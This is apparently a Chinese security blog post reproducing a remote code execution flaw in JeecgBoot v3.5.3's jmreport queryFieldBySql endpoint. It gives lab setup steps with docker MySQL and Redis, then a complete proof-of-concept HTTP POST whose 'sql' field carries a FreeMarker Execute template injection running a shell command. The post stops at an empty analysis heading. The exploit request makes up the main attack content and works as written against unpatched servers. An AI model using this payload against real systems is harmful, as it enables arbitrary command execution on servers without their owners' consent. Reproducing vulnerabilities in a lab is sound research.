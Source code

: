 #  jeecg boot queryFieldBySql RCE漏洞分析   
原创 kkk  漏洞推送   2025-02-08 08:59  
  
## 环境搭建  
## 后端  
  
源码地址:  
  
https://github.com/jeecgboot/JeecgBoot  
  
找到v3.5.3的commit，创建一个分支  
  
![image-20250108162704224](https://mmbiz.qpic.cn/sz_mmbiz_png/noZJ3Kqbu1ezgUbytNSX4hX79bFqAZuCnYqmAWIvYuicKZQ7eNrpaGJ8XQpYscqyeGpNEo7Pn3niaB9LiarCsMUYA/640?wx_fmt=png&from=appmsg "null")  
  
安装Maven依赖  
  
数据库配置文件: jeecg-module-system/jeecg-system-start/src/main/resources/application-dev.yml  
  
启动mysql: docker run -itd --name jeecg_mysql -p 3306:3306 -e MYSQL_ROOT_PASSWORD=root mysql:5.7  
  
解决Table 'test.QRTZ_TRIGGERS' doesn't exist  
问题  
  
docker cp jeecg_mysql:/etc/my.cnf my.cnf  
  
[mysqld]下面加入  
  
lower_case_table_names=1  
  
docker cp my.cnf jeecg_mysql:/etc/my.cnf  
  
重启mysql  
  
导入数据库: jeecg-boot/db/jeecgboot-mysql-5.7.sql  
  
启动redis: docker run -itd -p 6379:6379 --name jeecg_redis redis  
  
启动项目: jeecg-system-start/src/main/java/org/jeecg/JeecgSystemApplication.java  
## 漏洞复现  
  
poc:  
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.1.108:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0 Config/100.2.9281.82
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: zh-CN,zh
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Content-Length: 124

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```  
## 漏洞分析  
  